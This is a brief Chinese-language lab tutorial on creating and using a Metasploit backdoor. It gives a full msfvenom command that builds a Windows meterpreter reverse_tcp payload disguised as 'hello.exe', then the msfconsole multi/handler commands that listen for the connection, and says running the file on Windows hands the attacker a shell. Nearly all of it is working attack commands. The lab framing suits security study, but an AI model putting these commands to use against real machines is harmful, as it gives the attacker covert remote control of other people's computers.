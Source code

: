 # metasploit---后门使用

keywords: metasploit msf msfvenom 反向连接  

准备kali和windows  

kali生成恶意文件：  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.163.141 LPORT=8080 -a x86 -f exe -o hello.exe
```

kali监听：  
```bash
msfconsole
# 启动后执行以下命令
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST 0.0.0.0
    set LPORT 8080
    exploit
```

windows执行hello.exe之后，kali即可获取shell  


2021/4/20  
